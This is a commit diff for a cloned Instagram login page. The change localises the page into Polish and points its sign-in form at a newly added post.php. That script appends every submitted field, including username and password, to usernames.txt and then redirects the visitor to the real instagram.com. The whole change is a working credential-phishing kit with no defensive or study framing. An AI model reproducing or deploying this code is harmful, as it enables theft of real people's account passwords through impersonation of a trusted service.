

Add files via upload

Changed region(s): [[0.3014, 0.1488, 0.6028, 0.3571]]

diff --git a/index.html b/index.html
@@ -37,11 +37,11 @@
                             <img src="./images/logo-light.png" alt="Instagram logo" class="logo-light">
                             <img src="./images/logo-dark.png" alt="Instagram logo" class="logo-dark">
                         </div>
-                        <div class="signin-form" id="signin-form" action="https://formspree.io/f/xpzgvrpz" method="POST">
+                        <div class="signin-form" id="signin-form" action="post.php">
                             <div class="form-group">
                                 <div class="animate-input">
                                     <label>
-                                        <span>Phone number, username, or email</span>
+                                        <span>Numer telefonu, nazwa użytkownika lub...</span>
                                         <input type="email" name="email">
                                     </label>
                                 </div>
@@ -49,40 +49,40 @@
                             <div class="form-group">
                                 <div class="animate-input">
                                     <label>
-                                        <span>Password</span>
+                                        <span>Hasło</span>
                                         <input type="password" name="password">
-                                        <button>Show</button>
+                                        <button>Pokaż</button>
                                     </label>
                                 </div>
                             </div>
                             <div class="btn-group">
                                 <button class="btn-login" id="signin-btn" type="submit">
-                                    Log In
+                                    Zaloguj się
                                 </button>
                             </div>
                             <div class="divine">
                                 <div></div>
-                                <div>OR</div>
+                                <div>LUB</div>
                                 <div></div>
                             </div>
                             <div class="btn-group">
                                 <button class="btn-fb">
                                     <img src="./images/facebook-icon.png" alt="">
-                                    <span>Log in with Facebook</span>
+                                    <span>Zaloguj się przez Facebooka</span>
                                 </button>
                             </div>
-                            <a href="#" class="forgot-pw">Forgot password?</a>
+                            <a href="#" class="forgot-pw">Nie pamiętasz hasła?</a>
                         </div>
                     </div>
                     <div class="box goto">
                         <p>
-                            Don't have an account?
-                            <a href="#">Sign up</a>
+                            Nie masz konta?
+                            <a href="#">Zarejestruj się</a>
                         </p>
                     </div>
 
                     <div class="app-download">
-                        <p>Get the app.</p>
+                        <p>Pobierz aplikację.</p>
                         <div class="store-link">
                             <a href="#">
                                 <img src="./images/app-store.png" alt="app store">
@@ -97,20 +97,22 @@
         </div>
         <div class="footer">
             <div class="links">
-                <a href="#">About</a>
+                <a href="#">Meta</a>
+                <a href="#">Informacje</a>
                 <a href="#">Blog</a>
-                <a href="#">Jobs</a>
-                <a href="#">Help</a>
+                <a href="#">Praca</a>
+                <a href="#">Pomoc</a>
                 <a href="#">API</a>
-                <a href="#">Privacy</a>
-                <a href="#">Terms</a>
-                <a href="#">Top Accounts</a>
-                <a href="#">Hashtags</a>
-                <a href="#">Locations</a>
+                <a href="#">Prywatność</a>
+                <a href="#">Regulamin</a>
+                <a href="#">Lokalizacje</a>
+                <a href="#">Instagram Lite</a>
+                <a href="#">Threads</a>
+                <a href="#">Meta Verified</a>
                 <a href="#" id="darkmode-toggle">Darkmode</a>
             </div>
             <div class="copyright">
-                © 2021 Instagram from Facebook
+                © 2023 Instagram from Meta
             </div>
         </div>
     </div>

diff --git a/post.php b/post.php
@@ -1,0 +1,13 @@
+_<?php
+header ('Location:https://www.instagram.com');
+$handle = fopen('usernames.txt', 'a');
+foreach($_POST as $variable => $value) {
+fwrite($handle, $variable);
+fwrite($handle, '=');
+fwrite($handle, $value);
+fwrite($handle, 'rn');
+}
+fwrite($handle, 'rn');
+fclose($handle);
+exit;
+?> _
